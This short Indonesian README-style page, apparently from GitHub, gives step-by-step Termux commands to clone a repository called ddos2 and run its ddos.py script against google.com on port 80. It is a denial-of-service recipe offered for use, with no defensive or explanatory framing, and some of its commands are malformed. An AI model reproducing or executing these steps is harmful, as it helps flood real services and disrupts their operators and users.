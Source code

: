 Menggunakan DDOS dengan termux bye Kumpulan Remaja

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone
git clone https://github.com/TierGans/ddos2
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 
